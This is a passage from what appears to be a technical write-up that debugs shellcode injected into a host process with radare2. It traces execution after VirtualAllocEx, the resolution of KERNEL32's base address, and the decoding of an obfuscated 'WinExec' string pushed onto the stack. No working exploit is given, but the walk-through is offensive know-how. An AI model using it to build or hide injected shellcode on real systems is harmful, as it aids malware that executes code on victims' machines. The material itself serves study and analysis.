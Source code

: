 And we can move to debug the host process, note the address after the VirtualAllocEx and set breakpoints in it to continue the execution:
```
(5668) Created thread 6048 (start @ 00007FFE1F4DC940) (teb @ 000000A37A525000)
(5668) Created thread 5432 (start @ 000001A566040000) (teb @ 000000A37A527000)
hit breakpoint at: 0x1a566040000
[0x1a566040000]> pd 10
            ;-- rax:
            ;-- rdx:
            ;-- r9:
            ;-- rip:
            0x1a566040000 b    005f41         add byte [rdi + 0x41], bl
            0x1a566040003      57             push rdi
wa nop
```
We will see the shellcode being written and the execution being started there:
```
[0x1a566040001]> ds
[0x1a566040001]> pd 10
            0x1a566040001      5f             pop rdi
            ;-- rip:
            0x1a566040002      4157           push r15
```
And after some steps, we will see the KERNEL32 being resolved:
```
            0x1a56604001d      488b5b20       mov rbx, qword [rbx + 0x20]
            ;-- rip:
            0x1a566040021 b    4989d8         mov r8, rbx
            0x1a566040024      8b5b3c         mov ebx, dword [rbx + 0x3c]
```
Examining the memory after the pertinent call, we will see the base address in rax:
```
[0x1a566040001]> dr rbx
0x7ffe1e450000
dm
0x00007ffe1e450000 - 0x00007ffe1e451000 - usr     4K s r-- IMAGE    KERNEL32.DLL ? ; rbx
0x00007ffe1e451000 - 0x00007ffe1e4d0000 - usr   508K s r-x IMAGE    KERNEL32.DLL | .text ? ; map.IMAGE____KERNEL32.DLL__.text.r_x
[0x1a566040001]> pxw @ 0x7ffe1e450000
0x7ffe1e450000  0x00905a4d 0x00000003 0x00000004 0x0000ffff  MZ..............
0x7ffe1e450010  0x000000b8 0x00000000 0x00000040 0x00000000  ........@.......
0x7ffe1e450020  0x00000000 0x00000000 0x00000000 0x00000000  ................
```
And after then, we will see the string being decoded and pushed in the stack:
```
            0x1a566040094      48b80fa89691.  movabs rax, 0x9c9a87ba9196a80f
            0x1a56604009e      48f7d0         not rax
            0x1a5660400a1      48c1e808       shr rax, 8
            0x1a5660400a5      50             push rax
[0x1a566040001]> dc
hit breakpoint at: 0x1a5660400a6
[0x1a5660400a6]>
[0x1a5660400a6]> pxw @ rsp
0xa37a77fb40  0x456e6957 0x00636578 0x00000000 0x00000000  WinExec.........
0xa37a77fb50  0x00000000 0x00000000 0x00000000 0x00000000  ................
```
